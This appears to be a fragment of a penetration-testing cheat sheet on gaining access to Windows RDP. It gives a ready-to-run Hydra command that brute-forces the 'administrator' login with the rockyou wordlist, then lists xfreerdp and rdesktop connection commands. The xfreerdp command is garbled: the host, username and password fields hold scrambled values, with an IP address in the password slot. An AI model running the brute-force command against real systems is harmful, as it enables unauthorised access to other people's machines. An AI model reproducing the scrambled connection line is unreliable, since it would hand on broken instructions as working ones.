 - `finding credentials some where else as a hint` 
- `or you can brute force it.`


### 🔑 Brute-Force Login with Hydra
```bash
hydra -t 4 -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip
```

### Connect
```bash
# xfreerdp
xfreerdp /v:noman /u:passwordnoman /p:192.168.10.10 /workarea /smart-sizing

# rdesktop
rdesktop $ip
```

